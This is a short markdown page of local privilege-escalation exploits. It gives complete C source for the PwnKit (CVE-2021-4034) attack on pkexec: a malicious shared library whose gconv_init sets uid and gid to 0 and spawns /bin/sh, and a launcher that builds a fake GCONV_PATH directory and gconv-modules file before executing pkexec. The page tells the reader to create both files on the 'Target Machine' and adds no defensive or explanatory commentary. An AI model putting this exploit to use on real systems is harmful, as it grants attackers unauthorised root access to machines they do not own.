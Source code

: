 # Possible Escalation Exploits

## PwnKit (CVE-2021-4034)

Create `evil-so.c` on the Target Machine
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void gconv() {}

void gconv_init() {
    setuid(0);
    setgid(0);
    setgroups(0);
    execve("/bin/sh", NULL, NULL);
}
```

Create `exploit.c` on the Target Machine
```c
#include <stdio.h>
#include <stdlib.h>

#define BIN "/usr/bin/pkexec"
#define DIR "evildir"
#define EVILSO "evil"

int main()
{
    char *envp[] = {
        DIR,
        "PATH=GCONV_PATH=.",
        "SHELL=ryaagard",
        "CHARSET=ryaagard",
        NULL
    };
    char *argv[] = { NULL };
    
    system("mkdir GCONV_PATH=.");
    system("touch GCONV_PATH=./" DIR " && chmod 777 GCONV_PATH=./" DIR);
    system("mkdir " DIR);
    system("echo 'module\tINTERNAL\t\t\tryaagard//\t\t\t" EVILSO "\t\t\t2' > " DIR "/gconv-modules");
    system("cp " EVILSO ".so " DIR);
    
    execve(BIN, argv, envp);
    
    return 0;
}
```
